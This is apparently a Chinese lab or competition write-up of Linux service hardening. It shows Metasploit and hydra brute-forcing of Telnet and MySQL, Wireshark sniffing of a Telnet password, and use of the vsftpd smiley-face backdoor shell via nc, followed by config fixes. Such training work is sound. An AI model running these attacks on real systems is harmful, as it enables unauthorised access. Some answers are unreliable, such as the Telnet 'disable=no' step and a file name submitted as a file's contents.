开场白：
今天没有刷什么视频也没有什么灵感
每个人都很难,不止你一个人难.每个人都很累,不止你一个人累.
在这里祝我所有的好兄弟们,不管是上学的还是不上学的
愿每个人都可以让生活善待,愿每个人都别沉醉在现在的美好生活中
以前听过一句话
年纪轻轻的,别懒散,别颓废,该干啥干啥,忙起来,别闲着
Linux 操作系统加固
任务环境说明：
服务器场景：PYsystem20193（用户名：root；密码：123456）
服务器场景操作系统：PYsystem20193（版本不详）
1.通过本地PC中渗透测试平台Kali2.0中的metasploit渗透测试平台对服务器场景PYsystem20193进行Telnet密码暴力破解渗透测试，用户名admin，
密码字典使用/root/2.txt，并将破解成功的密码作为Flag值提交；
输入msfconsole 启动msf
输入search telnet telnet_login

得到auxiliary/scanner/telnet/telnet_login
输入use auxiliary/scanner/telnet/telnet_login 进行利用模块
输入show options 查看一下需要的配置

输入set rhost 192.168.32.131 设置靶机ip #192.168.32.131 为我自己靶机的ip
输入set PASS_FILE 8.txt 设置密码字典 #8.txt 字典是我自己写的
输入set USER_FILE 8.txt 设置用户字典 #我这里是密码字典和用户字典为一个字典 就是闲麻烦 :)
输入show options 查看一下设置成功是否

输入run 爆出出用户密码为msfadmin,msfadmin
flag:msfadmin,msfadmin

2.通过本地PC中渗透测试平台Kali2.0中的metasploit渗透测试平台对服务器场景PYsystem20193进行Telnet密码暴力破解渗透测试，并使用Wireshark
进行抓包，找到包含正确密码的数据包中的data信息，并将Data:后的字符串作为Flag值提交；（11分）
打开Wireshark

选择eth0 进行抓取 #eth0是指以太网

回到上面的那个页面进行run

回到Wireshark的页面
输入过滤命令 ip.addr==192.168.32.131 and telnet #意思是过滤192.168.32.131的telnet的端口的信息

一段一段找 我这里是使用过滤命令找 tcp.stream eq 2 #2的意思是正确的密码在我的第二段

Data 后面为msfadmin\r\n
flag:msfadmin\r\n
3.对服务器场景PYsystem20193的Telnet服务进行加固，要求修改其配置文件的第12行禁用Telnet服务，将需要加固的配置文件路径作为Flag值提交；
telnet密码已经爆破出来了 直接输入用户和密码 登陆就行
输入telnet 192.168.32.131

登陆完成之后不知道为什么没有找到telnet的配置文件
这就很尴尬,又去了别的Centos 7 上面找了一下也没有
于是就在网上找了一下里面的内容
修改文件disable=no 把yes给我no 就可以了
flag: /etc/xinetd.d/telnet

4.对服务器场景PYsystem20193的Telnet服务加固后，打开本地PC中渗透测试平台Kali2.0的终端，使用Telnet命令并再次使用admin账户进行登录，
此时应该提示登录失败，将登录失败提示的倒数第一行的最后两个单词作为Flag值(单词之间以英文逗号分隔，例如A,B) 提交；
在终端输入telent 192.168.32.131 再次进行连接
连接不上了
flag:to host

5.通过本地PC中渗透测试平台Kali2.0对服务器场景PYsystem20193进行FTP弱口令渗透测试，使用匿名用户来登录，并将FTP服务的根目录下唯一一
个后缀为.txt的文档内容作为Flag值提交；
终端输入ftp 192.168.32.131 进行ftp连接
在Name (192.168.32.131:root): 后面添加root:)
在Password:123 后面随便输入一个密码都行
完成之后会自动给你开启一个6200端口

然后在开启一个终端输入nc 192.168.32.131 6200
nc 进行连接 6200端口

dir 查看一下
cd /etc 进入etc里面
dir 查看一下 得出txt格式的文本名为1.txt
flag:1.txt

6.对服务器场景PYsystem20193的FTP服务进行加固，要求修改其配置文件的第十二行，设置禁止FTP匿名用户登录，将需要加固的配置文件路径作为Flag值提交；
输入vim /etc/vsftpd.conf
anonymous_enable=YES 把YES改为NO就可以了

7.对服务器场景PYsystem20193的FTP服务进行加固后，打开本地PC中渗透测试平台Kali2.0的终端，使用FTP命令并且使用匿名用户来登录FTP服务器，
将登录失败提示的倒数第二行的最后一个单词作为Flag值(单词之间以英文逗号分隔，例如A,B) 提交；
在终端输入ftp 192.168.32.131 进行连接 ,连接失败
flag:disabled

8.通过本地PC中渗透测试平台Kali2.0对服务器场景PYsystem20193，进行Mysql数据库密码暴力破解渗透测试，使用/root/2.txt下的字典文件破解数据库
root用户的密码，并将该数据库root用户的密码作为Flag值提交；
我这里是用hydra #名为九头蛇
输入hydra -l root -P 8.txt -t 5 -V 192.168.32.131 mysql
-l:指定用户
-P:指定密码字典
-t:为速度
-V：显示出爆破的过程
8.txt:是我自己弄的字典
mysql:对mysql服务进行爆破 爆破出的密码为123456
flag:123456

9.对服务器场景PYsystem20193的Mysql数据库用户进行加固，使用delete命令将任意地点登录的mysql用户删除，并使用select命令查询现有的mysql用户，
将查询到的最后一个用户名作为Flag值提交。
mysql -h 192.168.32.131 -uroot -p123456
输入命令进行远程连接

输入select user,host,password from user;
查看用户及其权限

输入delete from mysql.user where user=’root’; 删除mysql里面的 user里面的root用户
输入select user,host,password from user; 查看用户及其权限
